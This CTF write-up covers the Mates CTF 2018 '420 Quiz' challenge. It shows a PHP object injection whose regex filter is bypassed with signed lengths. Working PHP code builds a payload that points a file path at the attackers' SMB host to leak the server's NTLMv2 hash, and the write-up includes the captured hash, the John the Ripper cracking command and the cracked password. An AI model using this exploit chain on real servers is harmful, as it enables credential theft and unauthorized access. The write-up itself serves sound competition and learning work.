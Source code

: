 ```yaml
---
layout: post
title:  "Mates CTF 2018 - 420 Quiz"
date:   2018-06-18 13:37
categories: [MatesCTF2018]
tags: [Web]
author: jbz
---
```


This challenge was a cool real world scenario and we were the only team to solve it, so it's a good excuse to do a writeup.

The challenge question was just an URL, after you visit it you can signup with username and email and start a quiz.

Among the quiz questions there were these two interesting strings:
```
Relax, here is the hint: [admin]
Great, here is the second hint: [source_882c1aaf3.zip]
```

Visiting `/admin` presented us a login page with a comment which allowed us to understand that the authentication was using `LDAP`.

In the `source_882c1aaf3.zip` we found the source code of all non admin pages: [index.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/index.php), [lib.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/lib.php) and [quiz.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/quiz.php).

After a quick analysis we discovered a PHP Object Injection in [quiz.php](./quiz.php):
```
    if(isset($_POST['answer'])){

        $answer = (string)$_POST['answer'];
        $ck = base64_decode($_COOKIE['userinfo']);
        if(preg_match('/O:[0-9]+:"/',$ck)){ //Filter we need to bypass
            header("Location: quiz.php");
            die();
        }
        $userinfo = unserialize($ck); //Object Injection

        if(intval($_COOKIE['quiz_no']) > 19){
            $quiz = 'Each user needs to answer only 20 quizs! Please wait for response from us.';
        } elseif(is_array($userinfo)) {
            $tmp = new SaveAnswer($userinfo['username'],$userinfo['email'],$answer.PHP_EOL);
            $quiz = make_quiz($_COOKIE['quiz_no'], True);
        } else {
            die("Cannot get userinfo");
        }

    } else {
        $quiz = make_quiz($_COOKIE['quiz_no']);
    }
```

As you can see there is a filter we need to bypass to exploit it, as they are trying to prevent unserialization of PHP objects:
```
preg_match('/O:[0-9]+:"/',$ck)
```

However this filter can be bypassed by replacing the object length with a signed number (i.e. `O:5:"Class":1:{s:5:"param";s:5:"value";}` becomes `O:+5:"Class":1:{s:5:"param";s:5:"value";}`)

Now it's just a matter of finding the right object to unserialize to do some magic.

In [lib.php](./lib.php) we had an handy class which was included in [quiz.php](./quiz.php):
```
    class SaveAnswer {
        private $folder = 'C:\\Windows\\Temp\\';
        private $filename;
        private $anscontent;

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }

        private function writeToFile($mode){
            $fullpath = $this->folder.$this->filename;

            if(!file_exists($fullpath.'.txt')){
                if(!preg_match('/^C:\x5cWindows\x5cTemp\x5c[a-zA-Z0-9\.\_]+$/i',$fullpath)){
                    return False;
                }
            }

            try{
                $file = fopen($fullpath.".txt", $mode);
                fwrite($file, $this->anscontent);
                fclose($file);
            } catch(Exception $e){
                return False;
            }
            return True;
        }

        public function __destruct()
        {
            $this->writeToFile("a+");
        }
    }
```

Cool, a class on a Windows Server which allowed us to write to a file and we could use the PHP Object Injection to instantiate this class with arbitrary parameters.

### LET'S DANCE SAMBA ###

Windows has a very cool feature, when you try to access a link like `\\ip\file` it is so nice to send the NTLM hash of the current user along with the request to try to login via Samba, so what if we try to exploit the PHP Object Injection and request a file via Samba from our server and log the NTLM hash?

To build the right serialized object we used the following PHP code:
```
<?php

class SaveAnswer {
        private $folder = '\\\\our_ip_here\\';
        private $filename = 'jbz';
        private $anscontent = 'jbz';

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }
    }
  
$exp = new SaveAnswer('jbz','jbzteam@outlook.com','jbz');

echo base64_encode(str_replace("O:","O:+",serialize($exp)));
```

After sending a request to `quiz.php` with the generated payload in the `userinfo` cookie, we received this in our [Responder](https://github.com/SpiderLabs/Responder) server.


```
[SMB] NTLMv2-SSP Client     : 35.185.189.153
[SMB] NTLMv2-SSP Username   : QUIZSERVER0\r0cky0u
[SMB] NTLMv2-SSP Hash       : r0cky0u::QUIZSERVER0:1122334455667788:11726B453AFF097DBE050E3BB1386C7F:0101000000000000E0B28CD37405D401C3BA5E9BF5910DCE0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000000136927FA8611B32A37F4FD804F2D5B215872D9A9CC975CDDDE475B9AEBE2C000A001000000000000000000000000000000000000900200063006900660073002F0035002E0039002E003100310033002E003200310036000000000000000000
```

Now it was just a matter of launching [John The Ripper](https://github.com/magnumripper/JohnTheRipper) with the [rockyou wordlist](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) and wait the admin password to appear and use it to login in the admin panel.

```
$ john --wordlist=/tmp/rockyou.txt /tmp/SMB-NTLMv2-SSP-35.185.189.153.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
BENGIjake=06     (r0cky0u)
1g 0:00:00:09 DONE (2018-06-18 19:13) 0.1023g/s 1167Kp/s 1167Kc/s 1167KC/s BIMBONA..BANDSTER
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Congratulation the flag is: `matesctf{1df0d456589907360141240ec0d4fb71cd36f1fc}`
